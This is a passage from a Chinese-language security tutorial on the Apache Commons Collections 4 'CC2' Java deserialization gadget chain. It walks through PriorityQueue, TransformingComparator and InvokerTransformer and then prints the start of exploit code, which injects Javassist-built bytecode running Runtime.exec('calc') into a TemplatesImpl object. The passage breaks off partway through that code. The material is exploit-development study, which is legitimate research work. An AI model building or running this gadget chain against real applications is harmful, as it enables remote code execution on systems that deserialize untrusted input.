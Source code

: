   - 但此时 `PriorityQueue`会检查其子节点（索引 `1`），并调用 `comparator.compare()`比较两个元素：

    ```
    if (right < size && comparator.compare((E) c, (E) queue[right]) > 0)
        c = queue[child = right];
    ```

  - **因此，必须至少有两个元素才能触发 `compare()`**。

  并且`compare()`必须接收两个参数（`obj1`和 `obj2`），所以 `queue`中至少要有两个元素。

```java
        InvokerTransformer newTransformer = new InvokerTransformer("newTransformer", null, null);
//        newTransformer.transform(templates);

        TransformingComparator transformingComparator = new TransformingComparator(newTransformer);
        transformingComparator.compare(templates,1);
```

至此构造完毕.接下来就是序列化和反序列化演示

## 完整代码演示

```java
package lazyMapDemo;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.CtConstructor;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.InvokerTransformer;

import java.io.*;
import java.lang.reflect.Field;
import java.util.PriorityQueue;

public class CC2 {
    public static void main(String[] args) throws Exception {
        // ==================== 1. 生成恶意字节码（攻击载荷） ====================
        // 使用Javassist动态创建恶意类，这是攻击的核心载荷
        ClassPool pool = ClassPool.getDefault();
        // 必须继承AbstractTranslet，因为TemplatesImpl只加载该类的子类
        CtClass superClass = pool.get("com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet");
        CtClass cc = pool.makeClass("Calc"); // 恶意类名
        cc.setSuperclass(superClass); // 设置父类为AbstractTranslet

        // 静态代码块在类加载时自动执行，这里写入恶意命令（打开计算器）
        // 静态块是代码执行的关键位置，类加载时即触发
        CtConstructor constructor = cc.makeClassInitializer();
        constructor.setBody("Runtime.getRuntime().exec(\"calc\");");

        // 将恶意类编译为字节码，用于后续注入TemplatesImpl
        byte[] bytecode = cc.toBytecode();


        // ==================== 2. 构造恶意TemplatesImpl对象 ====================
        // TemplatesImpl是JDK中的类，其defineTransletClasses()方法会加载_bytecodes中的类
        TemplatesImpl templates = new TemplatesImpl();
        Class<? extends TemplatesImpl> templatesClass = templates.getClass();

        // 设置_name字段：TemplatesImpl在加载类时要求_name不为null，否则会抛出异常
        Field nameField = templatesClass.getDeclaredField("_name");
        nameField.setAccessible(true); // 突破私有字段访问限制
```